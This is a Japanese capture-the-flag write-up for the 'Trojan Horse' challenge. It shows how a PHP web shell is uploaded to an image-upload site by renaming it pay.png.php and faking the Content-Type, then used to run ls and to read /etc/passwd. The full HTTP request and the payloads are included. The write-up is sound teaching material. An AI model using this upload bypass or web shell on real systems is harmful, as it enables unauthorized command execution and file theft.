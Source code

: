 # Challenge Name: Trojan Horse
***
画像ファイルをアップロードできるサイト
![aa](https://github.com/xn16h7/CTF/blob/master/SecureBug%20CTF/securebugctfimg/writeup6.png)

バックドアシェルをアップロードしてみる
色々試した結果ファイル名とContent-Typeを書き換えるとbypassが可能だった
ファイルの中身を見ているときはファイルの先頭に拡張子にあわせて今回だと臼NGとかを入れることでbypassできる可能性があるらしい

ファイル名とペイロードを下記のようにしてみた。  
queryにcmdパラメータを入れてコマンド実行できる

> pay.png.php
~~~
<?
system($_GET['cmd']);
?>
~~~

Content-Type: application/octet-stream  
⇒Content-Type: image/pngに変更してリクエストを送信することでbypassができる


~~~
POST /trojan/ HTTP/1.1
Host: 18.194.166.81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------250722975826467346882742916592
Content-Length: 650
Origin: http://18.194.166.81
Connection: close
Referer: http://18.194.166.81/trojan/
Upgrade-Insecure-Requests: 1

-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="name"


-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="email"


-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="image"; filename="pay.png.php"
Content-Type: image/png

<?
system($_GET['cmd']);
?>
-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="submit"

Submit
-----------------------------250722975826467346882742916592--
~~~

アップロードに成功した。
![aa](https://github.com/xn16h7/CTF/blob/master/SecureBug%20CTF/securebugctfimg/%E2%91%A1writeup6.png)


下記のようにクエリにしてOSコマンドを実行してみるとlsコマンドが実行できた。
18.194.166.81/trojan/uploads/b804e095f705962280b4b4102d58c3d6.php?cmd=ls
![aa](https://github.com/xn16h7/CTF/blob/master/SecureBug%20CTF/securebugctfimg/%E2%91%A2writeup6.png)

flagがなかったので
問題文でパスワードがプレーンtextって書いてあったので下記payloadを送ってPHPを実行する。
~~~
<?php
    system("cat /etc/passwd");
?>
~~~
![aa](https://github.com/xn16h7/CTF/blob/master/SecureBug%20CTF/securebugctfimg/%E2%91%A3writeup6.png)

### SBCTF{unr3s7r1c73d_f1l3_upl04d_1s_d4ng3r0us}

